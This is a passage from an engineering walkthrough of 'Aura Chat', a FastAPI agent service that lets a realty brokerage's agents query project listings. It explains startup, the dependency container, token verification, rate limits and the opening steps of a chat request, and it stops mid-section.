# Aura Chat, end to end

A walkthrough for someone who has never seen this code. It starts with an empty
process and finishes with an answer on a realtor's screen, in that order, and
tries never to use a term it has not already explained.

Read it straight through — everything is in the order it happens. Or jump:

| | |
|---|---|
| [Part I](#part-i--the-process-starts) | what happens when the process starts |
| [Part II](#part-ii--the-map) | every file, every function that matters |
| [Part III](#part-iii--a-request-arrives) | how a request is authenticated, and the ceilings |
| [Part IV](#part-iv--one-chat-interaction-step-by-step) | **one chat interaction, step by step** |
| [Part V](#part-v--the-conversation-is-remembered) | **the conversation is remembered** — storage, history, reopening |
| [Part VI](#part-vi--feedback-from-a-thumb-to-the-reviewers-screen) | feedback, from a thumb to the reviewer's screen |
| [Part VII](#part-vii--the-other-flows) | `/health`, `/doctor`, `/login`, `/me`, and the portal side |
| [Part VIII](#part-viii--the-cli-traced) | the CLI, traced |
| [Part IX](#part-ix--how-this-is-tested) | how this is tested |
| [Part X](#part-x--when-something-breaks) | when something breaks |
| [Part XI](#part-xi--the-rules-that-hold-it-together) | the five ideas behind most of the code |
| [Part XII](#part-xii--what-is-not-built-yet) | what is not built yet |

If you only read one part, read **IV**. If you are debugging, start at **X**.

Companion documents: [the-agent.md](the-agent.md) takes Part IV's middle — the
agent loop — apart slowly, method by method; [architecture.md](architecture.md)
is *why* this shape was chosen and what was rejected;
[invariants.md](invariants.md) is the rules that break security or cost an
afternoon; [api.md](api.md) is every endpoint and tool as a reference;
[schema.md](schema.md) is the three database tables;
[../worklog.md](../worklog.md) is why each change was made, newest first.

---

## 0. What this is, in one paragraph

Aura Key Realty is a Toronto-area brokerage with about twenty realtors. They
already have a portal — a Google Apps Script web app reading Google Sheets,
plus an installable phone app. Aura Chat adds one thing: a realtor can *ask*
instead of browsing. *"Show me detached homes under $1M in Brampton."*

It is a **separate Python service**. It stores no project data of its own, holds
no Google credential, and has no privilege a realtor does not. It reads the
brokerage's data through the portal's own API, using the realtor's own login.
The one thing it *does* store is its own conversations — questions, answers and
feedback — in a small Postgres database, so a thread survives closing the app.



Two sentences worth holding on to, because most of the design follows from them:

1. **Aura Chat borrows the realtor's identity.** It never has its own.
2. **The model never sees anything a tool did not hand it**, and never decides
   what a realtor may see.

---

## Part I — The process starts

### 1.1 The entry point

```bash
uvicorn app.main:app
```

`uvicorn` is the web server. `app.main:app` means *import `app/main.py`, find the
object called `app`*. That object is a FastAPI application.

`app/main.py` is ~100 lines and assembles the whole HTTP surface.

```python
def create_app(settings: Settings | None = None) -> FastAPI:
    cfg = settings or load()
    configure_logging()                            # give the aura.* loggers a home
    app = FastAPI(title="Aura Chat", version="0.1.0", lifespan=lifespan)
    app.add_middleware(CORSMiddleware, ...)        # which browser origins may call us
    app.state.limits = Limits(...)                 # the per-caller ceilings (AUR-21)

    @app.middleware("http")
    async def request_id(request, call_next):      # one short id per request
        ...

    app.include_router(router)                     # /login /health /doctor /me
    app.include_router(chat_router)                # /chat
    app.include_router(feedback_router)            # /feedback, /feedback.csv
    app.include_router(conversations_router)       # /conversations, /conversations/{id}
    return app

app = create_app()
```

**A router** is a group of URL handlers. There are four — the ordinary endpoints
in `app/api.py`, the chat endpoint in `app/chat.py` (kept apart because chat is
the only one that streams), the feedback endpoints in `app/feedback.py`, and the
conversation-reading endpoints in `app/conversations.py`.

Three of those lines earn a sentence each:

- **`configure_logging()`** exists because of a silent failure: uvicorn
  configures only its own `uvicorn.*` loggers, so this service's `aura.*` log
  lines propagated to a handler-less root logger and Python's last-resort
  handler dropped everything below WARNING. A feedback report *is* an INFO log
  line, so a dropped INFO was a report thrown away behind a 200. This function
  gives the `aura` logger one stdout handler with a timestamp.
- **`app.state.limits`** holds three sliding-window counters — how many times
  each caller may hit `/chat`, `/login` and `/doctor` per hour. Part III covers
  them.
- **The `request_id` middleware** stamps a short random id (12 hex characters)
  on every request and echoes it back as an `X-Request-Id` response header. It
  is the thread that ties a complaint ("my question failed") to the exact log
  lines that explain it — nothing else correlates the two, because a failure can
  happen before a conversation id exists. **Middleware**, if the word is new, is
  a function wrapped around every request: it runs before the handler, calls the
  handler, and can touch the response on the way out.

**`lifespan`** is a hook FastAPI calls once on startup and once on shutdown.
It is one function holding both, split by a `yield`:

```python
@asynccontextmanager
async def lifespan(app: FastAPI):
    ...        # startup: runs once, before the first request
    yield      # the server serves requests here, for hours
    ...        # shutdown: runs once, as the process exits
```

If you have seen `@app.on_event("startup")` and `@app.on_event("shutdown")`,
this replaced them. A context manager keeps the setup and its teardown side by
side rather than in two functions that have to remember to agree.

Why the assembly cannot simply happen at import time: `build()` reads `.env` and
opens an `httpx.AsyncClient`, which wants a running event loop. Startup is the
first moment there is one. This is where the application assembles itself:

```python
@asynccontextmanager
async def lifespan(app: FastAPI):
    owned = getattr(app.state, "container", None) is None
    if owned:
        app.state.container = container_mod.build()
    try:
        yield                          # ← the server runs here
    finally:
        if owned:
            await app.state.container.aclose()
```

The `owned` check exists because of a real bug. Tests inject a container full of
fakes *before* starting the app; the original version built over it, silently
replacing the fakes with real adapters reading a `.env` file that does not exist
in CI. Now startup only builds what nobody supplied, and only closes what it
built.

### 1.2 The container

**Not a Docker container.** The word is older than Docker in this sense and the
collision is unfortunate. This container is just a box holding the objects that
live as long as the process does — a dataclass with seven fields.

The problem it solves: something has to decide *which* `ProjectRepo` this process
uses. If every module that needed one constructed
`ExecApiProjectRepo(PortalClient(url))` for itself, then swapping to Postgres
later would mean editing twenty files, the process would hold twenty HTTP
connection pools instead of one, and a test could not substitute a fake without
monkeypatching. So one file constructs everything and every other file is
*handed* what it needs.

That file is the **composition root**, and the box it returns is the container.
Other ecosystems reach for a DI framework here — Spring, .NET's container. For
five objects, 52 lines and no library is the right size.

`container_mod.build()` — `app/container.py`, 52 lines — is that root: the one
place in the entire service where a concrete implementation is chosen.



The `Container` is a plain dataclass holding those objects:

| Field | What it is | Built in |
|---|---|---|
| `settings` | every configuration value | Phase 1 |
| `portal` | HTTP client for the Apps Script API | Phase 1 |
| `auth` | verifies session tokens | Phase 1 |
| `projects` | reads project records | Phase 2 |
| `runtime` | runs the model loop | Phase 3 |
| `store` | conversations, messages, feedback — Postgres | Phase 4 |
| `documents` | PDF retrieval | **not built yet** |

`store` is built **only when `DATABASE_URL` is set**; without it the field is
`None` and chat still works, statelessly — persistence is the feature that
degrades. `documents` is still `None`. Every reader checks, and `/doctor`
reports an unbuilt field as `"not wired yet"` rather than as a failure.

**How a request reaches it.** Three hops, all boring:

```
app.state.container            # set once, at startup
  → container(request)         # api.py:13 -- returns request.app.state.container
    → c.projects_for(viewer)   # builds the per-request redacting repo
```

One long-lived box, and one short-lived wrapper built per request out of it.
That split is the shape of the whole service: connection pools and caches live
for the process, redaction lives for the request.

**Why one file matters.** Everything above the adapter layer depends on an
*interface*, never on an implementation. Moving project data from Sheets to a
database means writing a second adapter and adding one branch here. Nothing else
changes — not the tools, not the prompt, not the API. `tests/test_layering.py`
enforces this by walking the imports of every file: anything outside
`container.py` importing `app.adapters` fails the suite.

**Watch it work.** Suppose project data moves from Sheets to Postgres.

Today, the class name appears once:

```python
# container.py -- the ONE place a concrete class is named
projects = ExecApiProjectRepo(portal)
```

The route handler touches the container, but never names a class:

```python
# chat.py -- the door
c = container(request)
repo = c.projects_for(viewer)      # receives an object
async for event in c.runtime.stream(..., repo=repo, ...):
```

And the layer below receives the object as an argument:

```python
# tools.py -- has never heard of the container, or of Sheets
async def search_projects(repo: ProjectRepo, *, auth: str, city: str = "", ...):
    return await repo.search(ProjectFilters(city=city, ...), auth=auth)
```

The swap is then one line:

```python
projects = (
    PostgresProjectRepo(dsn) if cfg.project_source == "postgres"
    else ExecApiProjectRepo(portal)
)
```

`tools.py` unchanged, `agent_pydantic.py` unchanged, the prompt unchanged, the
API unchanged — because none of them ever wrote `ExecApiProjectRepo`. The payoff
is not tidiness. It is the size of the diff when the data source moves.

**The container is touched only at the door.** This is the part worth being
precise about, because it is not the same as a *service locator*, where any
function reaches into a global box and pulls out what it needs:

```python
async def search_projects(city=""):
    repo = get_container().projects        # <- NOT how this works
```

Two things go wrong with that. A test can no longer hand in a fake without
patching a global. And — the one that matters — `container.projects` is the
**unredacted** repo. The entire Client Mode guarantee rests on a tool being
*handed* the redacting wrapper and having no way to ask for anything else.

So: the container assembles objects once, the route handler opens it once, and
everything past that point receives its dependencies as parameters and cannot
see what is inside them.

### 1.3 Configuration

`app/config.py` is the only module that reads the environment. Everything else
receives values.

```python
class Settings(BaseSettings):
    token_secret: str = ""        # MUST match the portal's Script Property
    exec_url: str = ""            # the deployed Apps Script web app
    openrouter_api_key: str = ""
    llm_model: str = "google/gemini-2.5-flash"
    llm_max_tokens: int = 1500
    database_url: str = ""        # Postgres; empty means "no memory", not "broken"
    chat_per_hour: int = 60       # the ceilings, per caller (AUR-21)
    login_per_hour: int = 20
    doctor_per_hour: int = 30
    project_source: str = "exec"  # which ProjectRepo to build
```

Two of these have caused real outages:

- **`token_secret`** must be byte-identical to the portal's. A mismatch means
  every realtor gets 401 while `/health` stays green — which is why `/doctor`
  exists and why it works without a valid token.
- **`llm_max_tokens`** defaults to 1500 because, unset, providers advertise their
  entire context window (65,535 for Gemini Flash) and OpenRouter reserves credit
  against that number *before* the call. Every request was refused 402 until this
  was capped.

At this point the process is listening and nothing else has happened.

---

## Part II — The map

Before following a request, here is every file and why it exists. The service is
deliberately organised in four layers, and the direction of dependency never
reverses.



### `app/domain/` — what the business means

Pure data. Imports nothing external: not FastAPI, not the agent framework, not
the HTTP client. If a vendor type appeared here it would leak into every layer
above and pin them to today's stack.

| File | Holds |
|---|---|
| `project.py` | `Project` — one project as the *business* means it, not as a sheet stores it. `ProjectFilters` — a search expressed as intent. |
| `identity.py` | `Claims` (who is asking), `Role` (realtor \| admin), `ChatMode` (realtor \| client) |
| `viewer.py` | `Viewer` — role × mode, and the single source of truth for what each audience may see |
| `matching.py` | `matches(project, filters)` and `sort_key(project)` — the filter rules, pure and testable |
| `conversation.py` | `Turn` — one `{role, content}` exchange. `turns_from()` — stored rows → the turns the model is given, with `source_line()` appending the project ids an answer used (the compare-by-name fix, Part V) |
| `feedback.py` | `Feedback` — one report; `Verdict` (up/down) and the seven `IssueCategory` values, shared with the client so the two lists cannot drift |

`Project` is the crux of the whole design. It has `starting_price: int | None`,
not `"STARTING PRICE"`. Every adapter maps its own storage into this shape, so
nothing above the adapter layer ever learns a tab name, a row number, or a
column header.

### `app/ports/` — the five seams

A **port** is a `Protocol`: a description of what something must be able to do,
with no implementation. Five, capped deliberately.

| Port | Method surface | Adapter today | Plausible replacement |
|---|---|---|---|
| `ProjectRepo` | `search` `summarise` `get` `recent` `refresh` `healthy` | Apps Script API | Postgres, a CRM |
| `AuthVerifier` | `verify_local` `verify` | portal HMAC token | OAuth / SSO |
| `AgentRuntime` | `stream` `healthy` | PydanticAI | LangGraph, a hand-rolled loop |
| `ConversationStore` | `create` `append` `history` `list_for` `meta` `set_mode` `record_feedback` `list_feedback` | Postgres | Firestore, any SQL |
| `DocumentIndex` | `query` `healthy` | *not built* | pgvector |

Deliberately **not** ports: the HTTP framework, the database driver, and the
model provider. Swapping OpenRouter for Gemini directly is already a model
string; a port there would wrap an abstraction that exists.

`DocumentIndex` is declared before its adapter exists so tools and tests can be
written against it. `tests/fakes.py` has an in-memory implementation of
each, which is why the whole suite runs with no network.

### `app/adapters/` — one implementation per port

| File | Role |
|---|---|
| `portal_client.py` | HTTP to the Apps Script API. POSTs, follows redirects, refuses non-JSON. |
| `projects_exec.py` | `ProjectRepo` over that client. **The only file that knows a sheet column exists.** |
| `projects_redacting.py` | A `ProjectRepo` that wraps another and can only return what its `Viewer` may see. |
| `auth_portal_hmac.py` | Verifies the portal's token signature; asks the portal about liveness. |
| `agent_pydantic.py` | `AgentRuntime`. **The only file that imports an agent framework.** |
| `store_postgres.py` | `ConversationStore` on Postgres. **The only file that imports a database driver.** `schema.sql` beside it is applied on every boot, idempotently — that is the whole migration system. |
| `parsing.py` | `"$899,900"` → `899900`. Pure, and the messiest code in the service. |

### The rest

- **`app/tools.py`** — the five things the model may do. Plain async functions
  over ports. No framework import, no adapter import.
- **`app/prompts.py`** — the system prompt. Rules the model is *asked* to follow.
- **`app/limits.py`** — the sliding-window counters behind the 429s. Pure
  arithmetic over a clock; not a port, because there is nothing to swap.
- **`app/diagnostics.py`** — the checks behind `/health` and `/doctor`.
- **`app/cli.py`** — `aura`, a terminal client. Talks HTTP like any other client.
- **`app/bench.py`** — the 50-question benchmark harness. Scores what a machine
  can score and leaves correctness to a human verdict column.

### Every file, every function that matters

If you are looking for where something happens, this is the index.

**`app/main.py`** (103) — `lifespan()` builds the container unless one was
injected · `configure_logging()` gives the `aura.*` loggers a stdout handler ·
`create_app()` mounts all four routers, the CORS rules, the ceilings and the
request-id middleware

**`app/container.py`** (52) — `build()` constructs every adapter, the only place
that does · `Container.projects_for(viewer)` returns a repo narrowed to one
audience · `Container.aclose()` closes the HTTP client and the database pool

**`app/config.py`** (45) — `Settings` every value · `auth_ready` / `portal_ready`
what `/health` reports · `load()`

**`app/api.py`** (118) — `container(request)` reaches the container ·
`_bearer()` parses the header · `presented_token()` a token was sent ·
`current_claims()` a token that verifies, else 401 · `_rejected()` logs the
refusal (reason and address, never the token) · `login()` `health()` `doctor()`
`me()`

**`app/chat.py`** (217) — `Ask` the request body and its limits · `_resolve()`
finds or creates the conversation · `_history()` stored turns, else the
client's · `_audit()` one JSON line per question · `_sse()` formats one event ·
`chat()` opens the stream · `events()` the generator, where every failure is
caught so it reaches the client in the shape it is reading, and where the
answer is stored in a `finally`

**`app/conversations.py`** (71) — `GET /conversations` this realtor's threads ·
`GET /conversations/{id}` one thread, oldest first, 404 for anyone else's

**`app/feedback.py`** (118) — `POST /feedback` records a report ·
`GET /feedback` and `GET /feedback.csv` the admin-only review queue ·
`_inert()` stops a note becoming a live spreadsheet formula

**`app/limits.py`** (96) — `Window` at most N hits per hour per key ·
`client_ip()` the LAST `X-Forwarded-For` entry, the one our proxy wrote ·
`check()` raise 429 or pass

**`app/tools.py`** (139) — `search_projects()` `inventory_summary()`
`get_project()` `compare_projects()` `get_recent_projects()` ·
`MAX_RESULTS = 12`, `MAX_COMPARE = 4`. `get_project` resolves an id *or* an
exact unique name, and returns `None` on ambiguity rather than guessing between
two projects that share a name.

**`app/prompts.py`** (119) — `SYSTEM` the rules · `CLIENT_MODE_NOTE` appended in
Client Mode · `system_prompt(client_mode=)`

**`app/diagnostics.py`** (234) — `Check` / `Report` one result and the whole ·
`shallow()` what `/health` runs · `deep()` what `/doctor` runs · `_timed()` runs
a check and times it, turning any exception into a failed check rather than a
500 · `_token_check()` the pairing that separates a wrong key from a stale
token · `_redact()` for unverified callers · `data_quality()`

**`app/domain/project.py`** (198) — `Project` · `for_viewer(viewer)` a copy
carrying only what that audience may see · `is_ai_ready` · `ProjectFilters`,
whose `categories` fold to lowercase on the way in · `CONFIDENTIAL_FIELDS`

**`app/domain/viewer.py`** (74) — `Viewer.of(claims, mode)` ·
`Viewer.hidden_fields` the union · `ADMIN_ONLY` · `CLIENT_HIDDEN` · `STRICTEST`

**`app/domain/matching.py`** (68) — `matches(project, filters)` every filter
rule · `sort_key(project)` focus first, then cheapest known price, unpriced last

**`app/domain/identity.py`** (31) — `Claims` · `Role` · `ChatMode`

**`app/domain/conversation.py`** (53) — `Turn` · `MAX_HISTORY_TURNS = 20` ·
`source_line()` the ids an answer used, as one line · `turns_from()` stored rows
→ model turns

**`app/domain/feedback.py`** (70) — `Feedback` · `Verdict` · `IssueCategory`

**`app/adapters/portal_client.py`** (111) — `call(action, auth=, timeout_s=)` one
POST to the dispatcher · `healthy()` cached 60s on success, 5s on failure ·
`aclose()` · `PortalError`

**`app/adapters/projects_exec.py`** (257) — `search()` `summarise()` `get()`
`recent()` `refresh()` · `_index(auth, fresh=)` the five-minute cache ·
**`_to_project(raw)` the containment boundary — the only function in the
service that knows a sheet column exists**

**`app/adapters/projects_redacting.py`** (75) — wraps another `ProjectRepo`;
every read passes through `_redact()`. Also re-exposes `total_rows` and
`unparsed_prices` so diagnostics survives the wrapper.

**`app/adapters/auth_portal_hmac.py`** (132) — `verify_local()` signature and
window, no network · `verify()` adds liveness via the portal, cached 60s ·
`_prune()` evicts expired entries and caps the cache

**`app/adapters/store_postgres.py`** (189) — `_ready()` the lazy pool, schema
applied before the pool is published · `create()` `append()` `history()`
`list_for()` `meta()` `set_mode()` `record_feedback()` `list_feedback()`
`healthy()` `aclose()` · every read carries `user` into the SQL

**`app/adapters/parsing.py`** (167) — `is_blank()` `parse_money()`
`parse_price_range()` `parse_percent()` `parse_min_bedrooms()` `parse_date()`
`slugify()`

**`app/adapters/agent_pydantic.py`** (339) — `build_agent()` registers the five
tools · `_agent_for(client_mode)` memoised, two at most · `_model_for()`
memoised · `_as_messages(history)` our `Turn`s into framework messages ·
`_for_model(project)` what the model sees, empty fields dropped · `_keep()`
collects and dedupes · `stream()` the queue, the background task, the cancel ·
`MAX_STEPS = 6`

**`app/cli.py`** (442) — traced in Part VIII.

**`app/bench.py`** (400) — `aura bench`, the 50-question harness.

---

## Part III — A request arrives

Every endpoint except `/health` and `/login` needs a verified identity. That
happens in `app/api.py` before the handler runs.

### 3.1 The token

The portal issues a signed, self-contained token. Aura Chat did not invent it and
does not mint it — the realtor's phone already holds one.

```
raw   = username | role | credentialFingerprint | issuedAtMillis
token = base64url(raw) + "." + base64url(HMAC-SHA256(raw, TOKEN_SECRET))
```

### 3.2 Two levels of verification, and why

`app/adapters/auth_portal_hmac.py` has two methods because Python can check some
things and not others.



`verify_local` checks the HMAC signature and the seven-day window. It needs no
network, so junk is rejected without a round trip.

It **cannot** check two things, both of which require the LOGIN sheet: the
credential fingerprint (which is what makes a password change revoke old
sessions) and whether the account still exists. So `verify` delegates those to
the portal's own `session` action, cached 60 seconds.

**The unreachable branch is deliberate.** If the portal is *unwell* rather than
*refusing*, a locally valid token is honoured. Refusing would sign out the entire
team during an Apps Script outage — a worse failure than briefly honouring a
token that may have just been revoked.

Three details in `verify_local` that look arbitrary and are not:

- **Fields are parsed from the *end*.** A username may contain `|`, so counting
  from the front misreads every field after it. This was a real production bug
  (commit `61b06fc`) and is now a test.
- **`hmac.compare_digest`**, not `==`. A byte-wise comparison leaks the signature
  one character at a time to anyone willing to measure.
- **No secret means no sessions.** There is no permissive default anywhere.

### 3.3 Two dependencies, on purpose

```python
async def current_claims(...) -> Claims:   # requires a VALID token → 401 if not
async def presented_token(...) -> str:     # requires only that one was SENT
```

`/chat` and `/me` use the first. `/doctor` uses the second — because when
`TOKEN_SECRET` is wrong *nothing* verifies, and that is precisely the moment
somebody needs a diagnosis. A doctor that stops working when the patient is sick
is no use.

### 3.4 Refusals leave a trace

A request whose token is missing or does not verify is answered 401 — and now
also logged, by `_rejected()`: the reason, the caller's address, the path and
the request id. **Never the token itself** — a rejected token is still
somebody's credential, and one that failed only because a clock moved is still
valid elsewhere. A burst of refusals from one address is the signal worth
having; the credential is not.

### 3.5 The ceilings (AUR-21)

Three routes carry a per-caller ceiling, checked before anything else runs:

| Route | Counted per | Default | Why this one |
|---|---|---|---|
| `POST /chat` | **user** | 60/hour | one account must not be able to flood the model bill |
| `POST /login` | client IP | 20/hour | unauthenticated, and it forwards passwords to the portal's own lockout — ours must not be the amplifier in front of it |
| `GET /doctor` | client IP | 30/hour | it answers callers whose token did not verify, on purpose, and `?fresh=1` costs a real portal call |

Over a ceiling is `429` with a `Retry-After` header saying how many seconds
until the window frees up. The counters (`app/limits.py`) are a **sliding
window**: a deque of timestamps per caller, pruned on every check — so "60 per
hour" means the last rolling hour, not a bucket that resets on the hour. Only
*allowed* requests are recorded; counting refusals would let a hammering client
push its own window forward forever, turning an hour-long limit into a
permanent ban.

Two properties worth knowing. The counters live **in memory, per process** — a
restart resets everyone's allowance, and a second replica would double every
ceiling. And the IP is read from the **last** entry of the `X-Forwarded-For`
header, because that is the one Railway's own proxy appended; the first entry
is whatever the caller chose to write, and keying on it let a rotated header
buy a fresh allowance per request.

---

## Part IV — One chat interaction, step by step

This is the main story. A realtor types **"show me townhomes in Brampton"** and
presses send.



Now the same thing in words.

### Step 1 — The request is validated

```python
class Ask(BaseModel):
    question: str = Field(min_length=1, max_length=2000)
    mode: ChatMode = ChatMode.REALTOR
    conversation_id: str | None = None
    history: list[Turn] = Field(default_factory=list, max_length=MAX_HISTORY_TURNS)
```

FastAPI rejects an empty question, a 5,000-character question, or a 50-turn
history with a 422 before any handler runs.

Two of these fields are about memory. `conversation_id` is the thread this
question continues — `null` on a fresh chat, and the server hands one back in
the `start` event. `history` is a leftover from before the server had storage:
it is honoured only when there is no stored thread to prefer, and the shipped
app sends `[]` once it holds a `conversation_id`.

### Step 2 — Identity, then audience

```python
claims = await current_claims(...)      # who the account is
viewer = Viewer.of(claims, body.mode)   # what this screen may show
repo = c.projects_for(viewer)
```

**The client sends `mode`, and nothing downstream trusts it with more than
this.** It picks a `Viewer`; the repo built from that `Viewer` is the only route
the agent has to project data. A compromised client can choose to see *less*,
never more.

`Viewer` unions two independent axes:



| role | mode | hides |
|---|---|---|
| realtor | realtor | `builder_login` |
| realtor | client | all 9 |
| admin | realtor | *nothing* |
| admin | client | all 9 |

Union, never intersection: an admin in Client Mode is still showing a buyer a
screen, so entitlement never buys back a client-hidden field.

### Step 3 — The conversation is found, or begun

Persistence happens *around* the answer, not inside it. `_resolve()` asks the
store: does this `conversation_id` exist, and does it belong to this realtor?

- **Yes** → continue that thread. If the mode changed since last time, the
  row is updated so the thread reopens later in the mode it is now held in.
- **No id, or someone else's id** → create a fresh conversation, titled by the
  first 60 characters of the question. A stale id — the next realtor on a
  shared phone — silently gets their *own* new thread rather than an error, or
  worse, someone else's.

Then `_history()` loads the stored turns and the question itself is appended —
**before** the answer exists, so a run that dies mid-answer still leaves the
question on the record.

Every one of these store calls is wrapped: a database that is down degrades the
